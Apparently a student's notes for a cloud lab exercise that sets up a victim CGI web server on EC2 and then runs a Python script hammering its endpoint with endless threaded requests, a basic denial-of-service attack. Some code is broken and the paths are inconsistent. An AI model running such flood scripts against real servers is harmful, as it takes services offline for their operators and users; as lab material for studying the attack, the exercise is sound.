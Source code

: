 # Laborator 3

Connect to victim : 

```bash
ssh -i "qwikLABS-L1065-1930304.pem" ec2-user@34.242.251.191
```

Connect to attacker:

```bash
ssh -i "qwikLABS-L1065-1930304.pem" ec2-user@54.194.158.79
```

Start a server on the victim :

~/server/cgi-bin/service.py will be an executable script that gets invoked every time our server process
receives an HTTP request:
o create folder tree and cd into the folder that will hold our script

```cmd
$ mkdir -p ~/service/cgi-bin; cd ~/service/cgi-bin
```

```py
#!/usr/bin/env python
print('Content-type: text/html\n')
print('<title>Hello World</title>')
for num in range(2, 5000):
 prime = True
 for i in range(2, num):
 if (num%i == 0):
 prime = False
 if prime:
 print(num
 ```

 Give permissions to run, and start server:

 ```cmd
chmod +x service.py

cd ~/server; python -m CGIHTTPServer 1025
 ```

Open TCP connection and make call with wget:

```
wget http://localhost:1025/cgi-bin/service.py -O response; cat response | head -n 5
```

Python script to overload : 

```python
import requests
from multiprocessing.dummy import Pool as ThreadPool

def get(n):
    return (requests.get("http://34.242.251.191:1025/cgi-bin/service.py"))

pool = ThreadPool(4)

while 1 > 0:
 results = pool.map(get,[1,2,3])

```